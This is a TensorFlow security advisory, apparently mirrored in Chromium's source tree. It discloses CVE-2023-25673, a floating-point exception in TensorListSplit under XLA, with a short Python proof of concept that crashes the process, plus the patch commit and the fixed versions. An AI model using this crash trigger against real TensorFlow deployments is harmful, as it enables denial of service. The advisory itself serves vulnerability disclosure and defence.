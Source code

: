 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2023-011.md
## TFSA-2023-011: FPE in TensorListSplit with XLA 

### CVE Number
CVE-2023-25673

### Impact
FPE in TensorListSplit with XLA 
```python
import tensorflow as tf

func = tf.raw_ops.TensorListSplit
para = {'tensor': [1], 'element_shape': -1, 'lengths': [0]}

@tf.function(jit_compile=True)
def fuzz_jit():
 y = func(**para)
 return y

print(fuzz_jit())
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx